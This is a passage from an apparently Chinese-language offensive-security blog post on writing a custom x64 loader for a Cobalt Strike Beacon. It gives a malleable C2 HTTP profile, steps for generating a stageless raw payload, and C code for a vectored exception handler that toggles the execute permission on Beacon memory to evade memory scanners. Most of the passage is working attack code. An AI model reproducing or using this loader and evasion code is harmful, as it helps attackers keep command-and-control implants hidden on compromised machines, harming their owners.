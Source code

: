 ```

    set uri "/test.php";

    client {
        header "Content-Type" "application/octet-stream";

        # transmit our session identifier as /submit.php?id=[identifier]
        id {
            parameter "id";
        }

        # post our output with no real changes
        output {
            print;
        }
    }

    # The server's response to our HTTP POST
    server {
        header "Content-Type" "text/html";

        # this will just print an empty string, meh...
        output {
            print;
        }
    }
}
```

payload 选择生成无阶段原始格式，因为我是 x64 loader 所以把 x64 勾选上

![](https://mmbiz.qpic.cn/mmbiz_png/XOPdGZ2MYOclG4rA1VAULbNfrLdZSTOXnUPP0HMO0vefia6zKEk7fiaEx1KibwUSfPvCwoouBYK04NvT52LclCecA/640?wx_fmt=png)

思路和代码都很简单，我也不会对 Beacon 做任何加密，思路如下，首先创建事件用来同步线程

```
hEvent = CreateEvent(NULL, TRUE, false, NULL);
```

设置 VEH 异常处理函数，用来在因内存 X 属性取消后触发异常时恢复 X 属性

```
LONG NTAPI FirstVectExcepHandler(PEXCEPTION_POINTERS pExcepInfo)
{
    printf("FirstVectExcepHandler\n");
    printf("异常错误码:%x\n", pExcepInfo->ExceptionRecord->ExceptionCode);
    printf("线程地址:%llx\n", pExcepInfo->ContextRecord->Rip);
    if (pExcepInfo->ExceptionRecord->ExceptionCode == 0xc0000005 && is_Exception(pExcepInfo->ContextRecord->Rip))
    {
        printf("恢复Beacon内存属性\n");
        VirtualProtect(Beacon_address, Beacon_data_len, PAGE_EXECUTE_READWRITE, &Beacon_Memory_address_flOldProtect);
        return EXCEPTION_CONTINUE_EXECUTION;
    }
    return EXCEPTION_CONTINUE_SEARCH;
}

AddVectoredExceptionHandler(1, &FirstVectExcepHandler);
```
